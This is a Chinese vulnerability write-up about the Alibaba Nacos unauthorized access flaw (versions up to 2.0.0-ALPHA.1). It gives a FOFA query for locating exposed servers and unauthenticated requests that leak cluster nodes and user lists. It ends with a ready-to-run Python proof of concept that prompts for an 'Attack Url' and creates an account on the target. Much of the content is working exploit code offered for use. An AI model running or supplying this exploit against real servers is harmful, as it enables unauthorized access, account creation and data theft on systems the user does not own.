


# Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

> [!NOTE]
>
> Nacos <= 2.0.0-ALPHA.1

## FOFA

> [!NOTE]
>
> title="Nacos"

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**


## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论

https://github.com/alibaba/nacos/issues/1105


这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问


这里的请求url简化为

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=

退出用户后在前台访问这个 url


可以发现以及泄露了 **ip节点** 等数据

同样我们查看用户列表的请求并在前台访问

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9


这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包



返回下列创建成功

```
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```


看到有文章说要加上**User-Agent请求头**

```
User-Agent: Nacos-Server
```

但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

> [!NOTE]
>
> 同样的原理也可以用于修改密码添加配置等

## 漏洞利用POC

> [!NOTE]
>
> 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
>
> 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```


## Goby & POC

> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Alibaba_Nacos_Add_user_not_authorized.json

